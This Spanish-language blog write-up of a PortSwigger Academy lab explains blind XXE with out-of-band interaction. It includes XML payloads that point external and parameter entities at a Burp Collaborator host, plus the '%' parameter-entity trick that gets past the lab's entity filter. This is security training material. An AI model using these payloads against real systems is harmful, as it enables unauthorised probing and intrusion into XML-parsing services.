 +++
author = "Alux"
title = "Portswigger Academy Learning Path: XML external entity (XXE) Lab 4"
date = "2022-01-23"
description = "Lab: Blind XXE with out-of-band interaction via XML parameter entities"
tags = [
    "xxe",
    "blind xxe",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Blind XXE with out-of-band interaction via XML parameter entities

La vulnerabilidad o el ataque de XXE es poder realizar una inyeccion XML en la aplicacion que analiza la entrada que le pasa el usuario o el sistema. Lo que hace que un analizados XML no este configuracion o este configurado debilmente para que procese peticiones que un usuario mal intencionado pueda inyectar. Pudiendo llegar a ejecucion de comandos, lectura de archivos y otros.

![Proceso de XXE](xxe-injection.svg)


## Reconocimiento

En este <cite>laboratorio[^1]</cite>la finalidad es poder realizar una inyeccion XXE pero en este caso de tipo blind valiendose de la configuracion debil del analizador.

Primero notamos la opcion de `Check stock` de la web en la que recuperamos la existencia de los productos.

![Check stock](checkstock.png)

Al ir a la opcion de `Check stock` en burp vemos la peticion que se hace al servidor usando lenguaje XML para realizar la peticion.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```

![Peticion para recuperar el stock del producto](request1.png)

## Explotacion

Sabiendo la peticion que se hace lo primero que haremos sera explotar XXE pero del tipo blind esto a traves de declarar la DTD para luego referenciar la entidad a nuestro archivo que queremos leer que no existe pero el sistema automaticamente resolvera por medio de DNS y ahi es donde burpcollaborator entra en juego. Que es con la siguiente sintaxis. Luego se referencia en cualquiera del valor que se imprimira o recibira de la web que sera `productId` referenciando con `&xxe;`. Si no realizamos este proceso no podremos recuperar los datos. Asi que sabremos que se ejecuto cuando el sistema realice la peticion de DNS e intente conectarse. El codigo a inyectar XML sera:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://woogkixvp70djhv250l28xxf167wvl.burpcollaborator.net/test"> ]>
<stockCheck>
<productId>&xxe;</productId>
<storeId>1</storeId>
</stockCheck>
```
Realizamos la peticion y luego veremos la respuesta pero vemos que nos da una respuesta de error `"Entities are not allowed for security reasons"`. 

![Realizando peticion para blind XXE](request2.png)

Asi que intentemos bypassear y la manera de solucionarlo es agregando el signo de `%` al declarar la entidad y al momento de referenciar se olvida del `;` y cambiar por `%` despues de declarada la identidad haciendo que al final haga una solicitud a nuestro dominio.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://woogkixvp70djhv250l28xxf167wvl.burpcollaborator.net/test"> %xxe;]>
<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```

![Peticion de inyeccion XXE](request3.png)
![Log de consulta DNS y HTTP](collaborator.png)

Y con esto hemos resuelto el lab.

![Laboratorio resuelto](resuelto.png)


[^1]: [Laboratorio](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities)